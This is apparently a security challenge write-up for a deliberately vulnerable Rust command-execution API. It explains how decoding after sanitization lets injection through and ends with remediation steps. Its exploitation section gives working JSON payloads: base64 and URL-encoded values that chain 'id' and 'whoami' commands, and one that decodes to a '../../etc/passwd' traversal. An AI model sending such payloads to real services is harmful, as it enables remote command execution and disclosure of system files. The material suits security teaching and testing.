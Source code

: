 # Challenge 33: Command Injection via Parameter Substitution and Encoding Bypass

## Vulnerability
This Rust application implements a secure-looking command execution service with multiple layers of validation, but contains subtle vulnerabilities in parameter substitution and encoding handling that allow command injection.

## Locations and Issues

### 1. Parameter Substitution Logic Flaw
`src/main.rs` lines 94-98:
```rust
for (key, value) in &sanitized_params {
    let placeholder = format!("{{{}}}", key);
    full_command = full_command.replace(&placeholder, value);
}
```

### 2. Base64 Encoding Bypass 
`src/main.rs` lines 104-111:
The application decodes base64 parameters after initial sanitization, allowing injection of dangerous characters.

### 3. URL Encoding Bypass
`src/main.rs` lines 113-119:
Similar issue with URL decoding happening after sanitization.

## Impact
- Remote Command Execution despite multiple validation layers
- Bypass of command allowlisting through parameter injection
- Information disclosure and system compromise

## Why It's Hard to Detect
- Multiple security layers appear comprehensive
- Command validation looks robust with regex patterns and allowlisting
- Parameter sanitization removes dangerous characters
- The vulnerability is in the order of operations and encoding handling
- Static analyzers would struggle with the complex flow between functions
- Written in Rust, which has a reputation for memory safety (not logic safety)

## Exploitation

### Vector 1: Base64 Encoding Bypass
POST to `/api/execute`:
```json
{
  "command": "echo {payload}",
  "parameters": {
    "payload": "dGVzdDsgaWQ="
  },
  "encoding": "base64"
}
```

The base64 `dGVzdDsgaWQ=` decodes to `test; id`, bypassing the character sanitization.

### Vector 2: URL Encoding Bypass
POST to `/api/execute`:
```json
{
  "command": "echo {cmd}",
  "parameters": {
    "cmd": "hello%3B%20whoami"
  },
  "encoding": "url"
}
```

The URL encoded `%3B%20` becomes `; ` after decoding, allowing command chaining.

### Vector 3: Complex Parameter Substitution
POST to `/api/execute`:
```json
{
  "command": "ls {dir}",
  "parameters": {
    "dir": "Li4vLi4vZXRjL3Bhc3N3ZA=="
  },
  "encoding": "base64"
}
```

This decodes to `../../etc/passwd`, potentially causing path traversal.

## Remediation
1. Perform encoding/decoding before parameter sanitization
2. Use proper command builders instead of string substitution
3. Implement strict parameter validation after decoding
4. Use process execution libraries that prevent shell injection
5. Apply defense in depth with proper sandboxing
6. Never trust user input even after apparent sanitization
